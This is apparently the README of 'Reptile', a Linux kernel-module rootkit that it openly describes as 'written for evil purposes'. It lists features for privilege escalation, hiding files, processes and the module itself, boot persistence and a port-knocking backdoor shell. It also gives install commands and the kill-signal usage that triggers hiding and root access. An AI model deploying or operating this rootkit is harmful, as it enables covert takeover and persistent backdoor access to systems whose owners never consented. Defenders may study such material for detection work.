 # Reptile

<img align="left" src="https://imgur.com/nqujOlz.png">

<br><br><br><br>Reptile is a LKM rootkit written for evil purposes that runs on kernel 2.6.x/3.x/4.x. 
<br>Would you like to see his fatality?<br><br><br><br>

## Features

- Give root to unprivileged users
- Hide files and directories
- Hide files contents
- Hide processes
- Hide himself
- Hidden boot persistence
- ICMP/UDP/TCP port-knocking backdoor
- Full TTY/PTY shell with file transfer
- Client to handle Reptile Shell
   
## Roadmap

- Socket/Packet hiding
 
## Install
```
apt-get install linux-headers-$(uname -r)
git clone https://github.com/f0rb1dd3n/Reptile.git
cd Reptile
./installer.sh install
```
## Uninstall
```
./install.sh remove
```

## Usage

Binaries will be copied to `/reptile` folder, that will be hidden by Reptile.

### Getting root privileges

Just call: `/reptile/reptile_r00t`

### Hiding

- Hide/unhide reptile module: `kill -50 0`
- Hide/unhide process: `kill -49 <PID>`
- Hide files contents: `kill -51 0` and all content between the tags will be hidden

Example:
```
#<reptile> 
content to hide 
#</reptile>
```

### Backdoor

You use the client to send magic packets and get your full TTY encrypted shell!

<p align="center">
   <img src="https://imgur.com/GwwIJAM.png">
</p>

More informations: [Reptile Shell](sbin/README.md)

## Disclaimer

Some functions of this module is based on another rootkits. Please see the references!

## References

- “[LKM HACKING](http://www.ouah.org/LKM_HACKING.html)”, The Hackers Choice (THC), 1999;
- https://github.com/mncoppola/suterusu
- https://github.com/m0nad/Diamorphine.git
- https://github.com/David-Reguera-Garcia-Dreg/enyelkm.git
- https://github.com/maK-/maK_it-Linux-Rootkit
- “[Abuse of the Linux Kernel for Fun and Profit](http://phrack.org/issues/50/5.html)”, Halflife, Phrack 50, 1997;
- https://ruinedsec.wordpress.com/2013/04/04/modifying-system-calls-dispatching-linux/
- https://github.com/creaktive/tsh

## Contributing

Please consider making a donation to help improve Reptile. BTC Wallet: `1ASRMARFrpSanLHXCdNHD7K7pvr1fbK2fb`

<p align="center">
   <img src="https://imgur.com/RdYgb1T.gif">
</p>
